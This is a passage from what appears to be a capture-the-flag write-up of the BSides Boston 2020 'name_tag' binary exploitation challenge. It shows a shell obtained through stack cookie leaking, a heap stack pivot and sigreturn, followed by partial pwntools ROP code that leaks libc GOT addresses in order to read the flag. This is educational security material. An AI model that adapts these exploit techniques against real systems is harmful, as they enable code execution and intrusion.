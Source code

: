 Putting all this together and summarizing, the exploit works as follows:
1. Leak stack cookie
2. Write read /bin/sh and sigreturn to execve to heap
3. Ovewrite stack cookie and return of main to pivot stack to heap and execute
   from there.
4. Profit.

```sh
name_tag[master*] $ ./exploit.py LOCAL
[+] Starting local process '/home/kali/gh-ctf/bsidesbos-2020/name_tag/name_tag-traceable': pid 101633
[*] -> cookie: 0x49da6b642084c700
[*] Switching to interactive mode
$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),132(scanner),998(docker)
```

The full code can be seen at the end of this post.

## Ret-to-libc exploit

While the author didn't indend for a ret-to-libc exploit to work, I was able to
use the ROP to leak GOT addresses and found a database ((libc.rip)[http://libc.rip]) which told me the
version, so I could use the correct offsets and get the flag. We could use this
to do another `execve(`/bin/sh`, 0, 0)` but as I mentioned earlier we can't
actually run `execve` on the official binary due to the ptraceing. So we need to
try and open the file, read it, and then write it back to standard out.

So here is what we need to do:
1. Leak libc addresses from GOT to calculate libc base
2. Create a new ROP using these addresses to read the flag file and print it

My exploit might be a little more complicated than it needs to be, but this was
after working on this problem for many hours so I was braindead and I mean, it
works :) The complexity is that in the second ROP we actually set up for
a second stack pivot to a third ROP chain. I was running into some trouble with
overwriting too much of the data section causing the program to crash so
I wanted to get the heap address and be able to use that more, though the
exploit only ends up reading the flag into it which is pretty small. Okay, to
the exploit.

```python
# These were chosen by looking at the writable data section in the debugger to
# find spots that were mostly 0s so it wouldn't break things.
data_writable = 0x404f00
flag_addr = 0x404e00

r = ROP(exe)
# Print libc puts and malloc address from GOT.
r.puts(exe.got['puts'])
r.puts(exe.got['malloc'])
# Read the flag file name into one location and our next ROP into another
r.readStr(flag_addr, 0xff)
r.readStr(data_writable, 0xfff)
# Pivot the stack to where we are writing the next ROP
r.raw(pop_rsp) #  pop rsp; pop r13; pop r14; pop r15; ret;
r.raw(data_writable)
heap = do_rop(io, r.chain())
heap += 1024 # get our of the way of our previous writes (recall our first ROP started here)

# Parse the leaked address and calculate the base address. This was sometimes
# inconsistent, I asssume 0s in the addresses, which is why the length check is
# there.
io.recvuntil("Bio: ")
```